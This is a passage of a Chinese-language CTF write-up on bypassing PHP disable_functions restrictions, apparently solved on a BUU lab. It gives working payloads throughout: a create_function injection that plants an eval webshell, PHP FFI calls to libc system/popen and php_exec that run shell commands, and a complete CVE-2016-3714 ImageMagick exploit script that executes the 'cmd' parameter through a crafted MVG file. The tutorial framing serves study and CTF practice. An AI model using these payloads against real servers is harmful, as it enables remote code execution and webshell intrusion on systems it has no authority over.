

```
令fighter=create_function,invincibly=;}eval($_POST[whoami]);/*
payload:/?fighter=create_function&fights=&invincibly=;}eval($_POST[tokens]);/*
```

用蚁剑连上，发现无法执行命令。查看phpinfo



### **利用FFI调用C库的system函数**

```php
/?fighter=create_function&fights=&invincibly=;}$ffi=FFI::cdef("int system(const char *command);");$ffi->system("ls / > /tmp/res.txt");echo file_get_contents("/tmp/res.txt");/*
```

在C库中的system函数执行没有回显，这里写入到tmp等有写入权限的目录中，最后再用file_get_contents来查看执行结果。但是在这道题执行之后似乎无效

### **利用FFI调用C库的popen函数**

 C库的system函数调用shell命令，只能获取到shell命令的返回值，不能获得shell命令的输出结果，如果想获取输出结果可以使用popen函数来实现

```
FILE *popen(const char* command,const char* type);
```

popen()函数会调用foke()产生子进程，然后从子进程中调用/bin/sh -c来执行参数command的指令

参数type可使用"r"表示读取，"w"代表写入。

 依照此type值，popen()会建立管道连到子进程的标准输出设备或标准输入设备，然后返回一个文件指针。随后进程便可利用此文件指针来读取子进程的输出设备或是写入到子进程的标准输入设备中。

以下利用C库的popen()函数来执行命令，但是要读取到结果还需要C库的fgetc等函数。

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");$o = $ffi->popen("ls / -lah","r");$d = "";while(($c = $ffi->fgetc($o)) != -1){$d .= str_pad(strval(dechex($c)),2,"0",0);}$ffi->pclose($o);echo hex2bin($d);/*
```



### 利用FFI调用PHP源码中的函数

 其次，我们还有一种思路，即FFI中可以直接调用php源码中的函数，比如这个php_exec()函数就是php源码中的一个函数，当他参数type为3时对应着调用的是passthru()函数，其执行命令可以直接将结果原始输出，payload如下：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int php_exec(int type, char *cmd);");$ffi->php_exec(3,"ls /");/*
```

执行/readflag，但是不知道为啥拿到的flag缺了五个字，问了rabbit师傅，师傅给了我这个



 这意味着/readflag就只能拿到37个字节，因为是在buu的靶场上做的题目，可能比赛的时候本身flag就是只有37个字节吧！

# 0x12 利用ImageMagick

## 使用条件

- 目标主机安装了漏洞版本的imagemagick(<=3.3.0)
- 安装了php-imagick拓展并在php.ini中启用
- 编写php通过new imagick对象的方式来处理图片等格式文件
- PHP>=5.1

## 原理简述

 利用ImageMagick绕过disable_functions的方法利用的是ImageMagick的一个漏洞（CVE-2016-3714）。漏洞的利用过程非常简单，只要将精心构造的图片上传至使用漏洞版本的ImageMagick，ImageMagick会自动对其格式进行转换，转换过程中就会执行攻击者插入在图片中的命令。因此很多具有头像上传、图片转换、图片编辑等具备图片上传功能的网站都可能会中招。所以如果在phpinfo中看到有这个ImageMagick，可以尝试一下。

## 漏洞复现

使用docker镜像搭建环境

```
docker pull medicean/vulapps:i_imagemagick_1
docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1
```



发现使用了imagick拓展

将此利用脚本上传到主机上有权限的目录

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
   $command = 'id';
}

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```

然后包含该脚本并GET传参cmd执行命令